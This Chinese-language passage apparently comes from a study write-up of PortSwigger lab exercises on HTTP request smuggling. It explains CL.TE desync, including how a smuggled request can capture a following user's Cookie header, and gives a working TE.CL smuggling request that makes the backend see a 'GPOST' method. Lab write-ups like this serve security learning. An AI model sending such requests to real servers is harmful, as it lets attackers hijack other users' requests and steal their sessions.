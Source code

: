 -   1A + 1/2B 表示的是一个完整的请求 A + 一个不完整的请求 B
-   A(X) : 表示 X 请求隐藏在 A 请求的 body 当中
-   ending B: 请求 C 第一行被拼接到了不完整的请求 B 的 header 头当中，请求 C 其他所有的请求头都被添加到了请求 B 当中，这样请求 C 就相当于消失了，请求 B 会带着请求 C 的请求头去请求后段服务器，包括 Cookie 字段或者其他什么认证字段

整个过程：首先发送请求，Front服务器优先CL处理，那么会认为

```
0\r\n
\r\n
G
```

为一个完整请求，到Backend服务器时，优先TE处理，会认为：

```http
POST / HTTP/1.1
Host: 0a5f0013044e0a8dc0c33f2c00850080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0
```

是一个完整请求，而认为`G`是一个不完整的请求，造成了1/2B请求，之后与后面的C请求构成一个完整的请求，而造成`GPOST`请求

## TE-CL

还是使用Lab：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

>   本实验涉及前端和后端服务器，后端服务器不支持分块编码。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

```http
POST / HTTP/1.1
Host: 0a7a00370308efe7c0a4cbb400f500a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0


//这里需要注意，有两个CRLF：
0\r\n
\r\n
```

![](2022-10-HTTP/image-20221006174616570.png)
